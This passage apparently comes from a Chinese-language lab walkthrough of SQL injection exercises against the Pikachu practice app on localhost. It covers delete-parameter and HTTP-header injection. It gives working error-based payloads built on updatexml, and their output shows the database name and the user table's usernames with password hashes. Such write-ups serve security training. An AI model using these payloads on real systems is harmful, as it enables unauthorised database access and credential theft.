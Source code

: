    ```
   XPATH syntax error: '~9a18c428cb38d5f260853678922e03~'
   ```

   ==> 综上所述，user 表中第三行数据为：

   ```
   test : e9 + 9a18c428cb38d5f260853678922e03
   ```

   ==> 综上：user 表中的数据为：

   ```
   admin : e10adc3949ba59abbe56e057f20f883e
   pikachu : 670b14728ad9902aecba32e22fa4f6bd
   test : e99a18c428cb38d5f260853678922e03
   ```



## delete 注入

1. 判断注入类型：通过查看源码可知，当 sql 影响的数据条数 != 1时，会向前端页面抛出提示："删除失败,检查下数据库是不是挂了"，但通过报错注入发现，页面可以回显 sql 错误信息，综上，故可使用报错注入法！

2. 获取数据库名称：

   ```sql
   http://localhost/pikachu/vul/sqli/sqli_del.php?id=631 or updatexml(1,concat(0x7e,(database()),0x7e),1)
   ```

   ```
   网页页面显示：XPATH syntax error: '~pikachu~'
   ```

3. 其余操作参考 **insert / update 注入**



## ❌ http head 注入

1. 判断注入类型：报错注入

   ```sql
   因为注入SQL为更新、删除类型，而非查询，故无法使用常规的联合注入法，
   又因为无数据回显，故也不建议用盲注法
   ```

2. 获取数据库名称：

   ```sql
   User-Agent: hackhuang' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or '
   ```

   ```
   页面显示：XPATH syntax error: '~pikachu~'
   ```

   **注1：为什么上述注入 sql 是这种写法？**

   答：因为源码中的代码是这样的：
